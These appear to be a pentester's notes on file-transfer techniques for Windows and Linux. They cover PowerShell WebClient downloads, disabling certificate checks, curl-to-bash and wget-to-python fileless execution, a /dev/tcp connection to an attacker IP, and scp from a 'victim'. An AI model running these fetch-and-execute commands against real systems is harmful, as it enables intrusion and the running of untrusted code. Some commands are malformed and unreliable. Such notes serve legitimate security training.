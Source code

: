 
# Quick Methods



### Powershell 

PowerShell offers many file transfer options. In any version of PowerShell, the [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`. The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource:

| **Method**                                                                                                               | **Description**                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                    |

`search for WMI commands with astrik reg`
```
Get-Command -Noun WMI*
```


 powershell issues:
```
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter `-UseBasicParsing`.
```

- Certificate SSL Not Trusted
```powershell-session
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

========================================================
#  ```

**Note:** You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`. (mount to windows partition)


`using PowerShell DownloadFile Method:`
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('#url')
```
========================================================


=========================================================

==========================================================
# Linux File Downloads
============================================================


`download on linux using WGET:`
```shell-session
wget https://#URL -O /tmp/filename
```

`download on linux using CURL:`
```shell-session
curl -o /tmp/LinEnum.sh #uRL
```
## Fileless Download Using Linux

`PIPES`
may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS

`CURL AND EXECUTE DIRECTLY BY PIPING TO BASH:`
```shell-session
$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

`Fileless python pipe`
```shell-session
$ wget -qO-https://#urltofile | python3
```

`Download with Bash (/dev/tcp)`
```shell-session
 exec 3<>/dev/tcp/10.10.10.32/80
```
`print response`
```shell-session
cat <&3
```
## SSH Downloads through SCP

`check ssh on attacker`
```shell-session
sudo systemctl enable ssh 
```
```
sudo systemctl start ssh
```
check if ssh is working
```
mag$ netstat -lnpt
```
**Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.
victim
```
victim$ scp tempman@192.168.49.128:/root/myroot.txt . 
```

